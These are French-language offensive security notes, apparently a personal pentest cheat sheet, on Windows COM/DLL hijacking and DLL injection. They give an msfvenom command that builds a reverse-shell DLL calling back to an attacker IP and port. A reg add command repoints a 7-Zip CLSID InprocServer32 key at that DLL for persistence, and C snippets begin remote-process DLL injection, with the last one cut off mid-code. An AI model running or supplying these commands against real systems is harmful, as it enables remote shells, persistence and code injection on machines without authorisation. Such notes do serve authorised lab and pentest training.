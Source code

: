 Si possible identifier le path de la DLL

```
reg query "HKLM\Software\Classes\...\InprocServer32"
```

Créer une dll malicieuse

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.177 LPORT=4444 -f dll -o 7zip.dll
```

Ajouter une entrée à la clé de registre pointant vers la DLL.

```
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\Temp\7zip.dll" /f
```

Puis attendre que quelqu'un execute le programme/service associé.

---
# DLL Injection

- [[#LoadLibrary (API system) (flag)]]
- [[#Manual Mapping]]
- [[#Reflective DLL Injection]]
- [[DLL HIJACKING WINDOWS]]

## LoadLibrary (API system) (flag)

Permet de charger un DLL dans le processus actuel en mémoire de manière legitime

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
```


Injection DLL en allouant de la mémoire au sein du processus cible pour le chemin d'accès à la DLL, puis en lançant un thread distant qui commence par LoadLibrary et se dirige vers le chemin d'accès à la DLL.

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

```